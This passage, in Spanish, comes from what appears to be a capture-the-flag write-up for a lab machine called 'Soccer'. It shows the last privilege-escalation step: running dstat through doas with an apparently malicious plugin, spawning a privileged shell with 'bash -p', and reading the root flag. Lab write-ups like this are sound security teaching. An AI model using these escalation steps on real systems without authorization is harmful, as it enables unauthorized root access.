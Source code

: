 Ejecutaremos ***dstat*** con el comando:

```bash
player@soccer:/tmp$ doas /usr/bin/dstat --pwned
```

y ya podremos *spawnearnos* una ***shell*** como el usuario ***root***:

```bash
player@soccer:/tmp$ bash -p 
bash-5.0# whoami
root
```
## root.txt

En el ***homedir*** de *root* encontraremos la segunda ***flag***:

```bash
bash-5.0# cat /root/root.txt 
0bbe8baea96c4f28867887bfdda9b16b
```